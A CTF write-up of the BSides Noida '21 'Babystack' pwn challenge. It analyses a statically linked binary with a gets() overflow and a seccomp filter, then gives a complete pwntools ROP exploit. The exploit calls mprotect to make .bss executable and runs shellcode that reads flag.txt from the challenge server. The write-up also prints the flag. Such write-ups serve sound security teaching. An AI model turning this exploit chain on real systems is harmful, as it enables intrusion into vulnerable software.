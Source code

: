 # Babystack

Okay so this was a ROP based challenge in BSides Noida '21 CTF. At the time of the CTF, I wasn't really able to solve this challenge. However after trying again, I did get a solution.

Before we dive right in, let's check some preliminary conditions and permissions.

```babystack.out: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=07e1b7ffbb8cbb81b3b714c0187e30dd5f6e2a0d, for GNU/Linux 3.2.0, not stripped```
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
As we can see, it is a 64 bit, statically linked file, with canary and nx enabled. Therefore, to inject a shellcode, we will need an executable stack which isn't possible at the current moment. Let's dive right in to know more.

```int __cdecl main(int argc, const char **argv, const char **envp)
{
  u32 inp[16]; // [rsp+0h] [rbp-40h] BYREF

  apply_seccomp(argc, argv, envp);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  gets(inp);
  return 0;
}
```

From the above decompiled binary, we see the obvious vulnerability "gets" and use of "seccomp" which prevents us from using syscalls other than read, write and open. 
Upon analyzing the binary further we can find mprotect function which basically changes perissions of the .bss section. This would majorly help us in writing a shellcode as the .bss section already has permissions for read and write. Making it executable would help us injecting a shellcode. 
```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b9000         0x004bc000         rw-p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  ;(.bss section with rw permissions) 
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

As we can see, using mprotect(), if we change the permissions of the .bss section to "rwx", we can get our shellcode executed.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  
0x004b9000         0x004bc000         rwxp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  ;(.bss section with rwx permissions)
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

To do that, we need to note a few things:
- buffer size is 0x40.
- Use an address in .bss section with "rw" permissions and make it executable as well.
- in order to write the shellcode in .bss section, we need to make use of gets() in .bss section.

Firstly, in order to change the permissions, we may do the following:
```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi
```
This will make sure the .bss section has executable permissions. 

Since "seccomp" is used, we can only make use of read, write and open syscalls. Therefore we may write our shellcode as:
```
shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)
```

Now all we need to do is send the payload and give the shell!

## Exploit:
Here's the complete exploit:

```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi

shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)

sleep(0.1)
p.sendline(payload)
sleep(0.1)
p.sendline(asm(shell))

p.interactive()
```

## Flag:
```BSNoida{y0u_4r3_4_b4by_pwn3r_n0w_C7A5}```

